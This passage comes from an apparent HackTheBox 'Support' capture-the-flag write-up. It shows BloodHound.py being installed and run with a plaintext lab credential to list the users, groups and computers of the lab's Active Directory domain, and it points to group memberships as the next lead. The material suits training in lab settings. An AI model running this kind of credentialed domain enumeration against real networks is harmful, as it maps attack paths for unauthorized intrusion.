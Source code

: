 Once you have that setup let's grab the python script and run it:

```sh
┌──(root㉿kali)-[~/htb/support]
└─# git clone https://github.com/fox-it/BloodHound.py.git
Cloning into 'BloodHound.py'...
remote: Enumerating objects: 1141, done.
remote: Counting objects: 100% (224/224), done.
remote: Compressing objects: 100% (47/47), done.
remote: Total 1141 (delta 193), reused 182 (delta 177), pack-reused 917
Receiving objects: 100% (1141/1141), 474.25 KiB | 2.58 MiB/s, done.
Resolving deltas: 100% (772/772), done.

┌──(root㉿kali)-[~/htb/support]
└─# cd BloodHound.py

┌──(root㉿kali)-[~/htb/support/BloodHound.py]
└─# python3 setup.py install 
running install
running bdist_egg
running egg_info
creating bloodhound.egg-info
writing bloodhound.egg-info/PKG-INFO
writing dependency_links to bloodhound.egg-info/dependency_links.txt
writing entry points to bloodhound.egg-info/entry_points.txt
writing requirements to bloodhound.egg-info/requires.txt
writing top-level names to bloodhound.egg-info/top_level.txt
writing manifest file 'bloodhound.egg-info/SOURCES.txt'
reading manifest file 'bloodhound.egg-info/SOURCES.txt'
<SNIP>

┌──(root㉿kali)-[~/htb/support/BloodHound.py]
└─# python3 bloodhound.py -u support@support.htb -p Ironside47pleasure40Watchful -dc dc.support.htb -d support.htb -ns 10.10.11.174 --zip -c All
INFO: Found AD domain: support.htb
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Machine.support.htb
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 05S
INFO: Compressing output into 20220810113012_bloodhound.zip
```

Drop that zip in to Bloodhound and have a look around. Eventually you'll find that the user **support** is in the security group **Shared Support Accounts**:
